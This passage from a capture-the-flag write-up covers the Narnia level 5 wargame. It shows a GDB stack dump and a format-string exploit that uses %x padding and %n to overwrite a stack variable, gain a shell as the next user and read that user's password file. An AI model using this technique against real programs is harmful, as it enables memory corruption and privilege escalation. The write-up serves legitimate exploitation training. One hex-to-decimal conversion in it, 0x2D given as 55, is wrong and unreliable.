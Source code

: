 ```
0xffffd6a0:     0xffffd6cc      0x00000040      0xffffd8f0      0xf7e5efc3
0xffffd6b0:     0x08048261      0x00000000      0x00ca0000      0x00000001
0xffffd6c0:     0xffffd8da      0x0000002f      0xffffd71c      0xffffd70c
0xffffd6d0:     0x35653766      0x33636665      0x38343038      0x30313632
0xffffd6e0:     0x30306163      0x66313030      0x64666666      0x32616438
0xffffd6f0:     0x66666666      0x31376466      0xf7fc0063      0xf7e5f1a5
0xffffd700:     0xf7feb660      0x00000000      0x08048529      0x0000002d  <- After the snprintf() is called
0xffffd710:     0x08048520      0x00000000      0x00000000      0xf7e454b3
0xffffd720:     0x00000002      0xffffd7b4      0xffffd7c0      0xf7fd3000
0xffffd730:     0x00000000      0xffffd71c      0xffffd7c0      0x00000000
0xffffd740:     0x0804822c      0xf7fceff4      0x00000000      0x00000000
0xffffd750:     0x00000000      0x9af939a3      0xadff9db3      0x00000000
0xffffd760:     0x00000000      0x00000000
(gdb) c
Continuing.
 
Breakpoint 2, 0x0804848c in main ()
(gdb) c
Continuing.
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [
×ÿÿf7e5efc380482610ca00001ffffd8da2fffffd71c] (45)
i = 45 (0xffffd70c)
[Inferior 1 (process 30980) exited normally]
(gdb)
```

As you can see in the above output from GDB before and after the snprintf() is called, in the output after the call is made you can see that the value has been changed from a 0x01 to 0x2D (55). In previous outputs of viewing the ESP register in GDB, we can verify that this is because of the new argument passed to the binary that was used.

NOTE: Notice how “$(python -c ‘print “\x0c\xd7\xff\xff”‘)” in the argument followed by “%x%x%x%x%x%x%x%x%n”. This is because we want to write the memory location as the first 4 bytes of the argument but if we pass the memory location to the binary as “\x0c\xd7\xff\xff” it would not understand this is 4 bytes and we would cause the application to crash as we would exceed the input buffer size.

So we are now able to modify the value of i from 1 to 45, but we need to change i to 500. So if we specify the value to write to the memory location by replacing the last “%x” again with value to write we can control the value written to i.

```
narnia5@melinda:/narnia$ ./narnia5 $(python -c 'print "\x2c\xd7\xff\xff"')%x%x%x%x%x%x%x%500u%n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [,×ÿÿf7e5efc380482610ca00001ffffd8f12f                          ] (63)
i = 537 (0xffffd72c)
```

And so the final part is to do 500-37 to work out the correct value to write.

```
narnia5@melinda:/narnia$ ./narnia5 $(python -c 'print "\x2c\xd7\xff\xff"')%x%x%x%x%x%x%x%463u%n
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
```
